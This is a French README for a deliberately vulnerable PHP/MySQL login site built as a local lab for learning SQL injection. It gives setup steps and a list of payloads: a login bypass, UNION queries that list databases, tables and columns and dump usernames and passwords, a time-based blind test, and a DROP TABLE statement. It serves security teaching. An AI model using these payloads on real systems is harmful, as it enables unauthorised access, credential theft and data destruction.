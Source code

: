 # Labo d'Injection SQL - Site Vulnérable

Ce projet est un environnement local vulnérable à l'**injection SQL (SQLi)**, conçu pour t’aider à apprendre les bases du hacking éthique en toute sécurité. Il inclut une page de login, une page d’accueil protégée, et des exemples pratiques pour tester les injections SQL.

> ⚠️ Ce projet est uniquement destiné à des fins pédagogiques. N'utilisez jamais ces techniques sur des systèmes sans autorisation explicite.

---

## 📁 Structure du projet
Site Vulnérable

├── index.php      : Page protégée

├── login.php      : Connexion vulnérable

├── logout.php     : Déconnexion

├── config.php     : Config BDD

├── database.sql   : Création base

├── style.css      : Style

└── README.md      : Ce fichier


---

## 🛠️ Technologies utilisées

- **PHP** – Pour la logique côté serveur
- **MySQL** – Base de données
- **HTML/CSS** – Interface utilisateur
- **PDO** – Connexion à la base de données (vulnérable dans sa version initiale)

---

## 🧱 Objectif

Ce labo permet d'apprendre :
- Comment détecter une vulnérabilité SQLi
- Comment exploiter une injection SQL manuellement
- Comment automatiser l’attaque avec `sqlmap`
- Comment corriger la faille de sécurité

---

## 🔧 Installation locale

### 1. Cloner le projet
```bash
https://github.com/HoussamElBouamraoui/sqlinjections

```
### 2. Importer la base de données
```bash
mysql -u root -p < database.sql
```
### 3. Démarrer le serveur local 

**Utilise XAMPP , WAMP , MAMP ou LAMP :**

**Place le dossier dans htdocs/ (pour XAMPP)**

**Accède au site via : http://localhost/mon-site-sql/login.php**

---


## 🧪 Exemples d’injections SQL à tester

Tu peux utiliser ces payloads SQLi pour détecter et exploiter une vulnérabilité sur ton site web.

### 🔐 Bypass du login (Login bypass)

Permet de se connecter sans connaître le mot de passe :

```sql
Nom d'utilisateur : ' OR '1'='1
Mot de passe : whatever
```

### 📚 Récupérer des données sensibles
```sql
Nom d'utilisateur : ' UNION SELECT 1, username, password FROM users--
Mot de passe : whatever
```

### 🗂️ Lister les bases de données 
```sql 
' UNION SELECT 1, schema_name, 3 FROM information_schema.schemata--
```
 
### 📄 Lister les tables d’une base 
```sql
' UNION SELECT 1, table_name, 3 FROM information_schema.tables WHERE table_schema = 'nom_base'--
```

### 📑 Lister les colonnes d’une table
Pour trouver les noms des colonnes (ex: username, password) :
```sql
' UNION SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_name = 'users'--
```

### 🔍 Afficher les données d’une table
Exemple pour afficher les identifiants stockés :
```sql
' UNION SELECT 1, username, password FROM users--
```

### ⏱️ Injection SQL aveugle (Blind SQLi)
Utiliser avec une réponse basée sur le temps :
```sql
' AND IF(1=1, SLEEP(5), 0)-- 
```
Teste si le serveur met 5 secondes à répondre → injection réussie !

🧹 Supprimer une table (⚠️ Dangereux – À utiliser uniquement en labo)
Efface la table users (ne le fais QUE sur ton propre site) :
```sql
'; DROP TABLE users;--
```




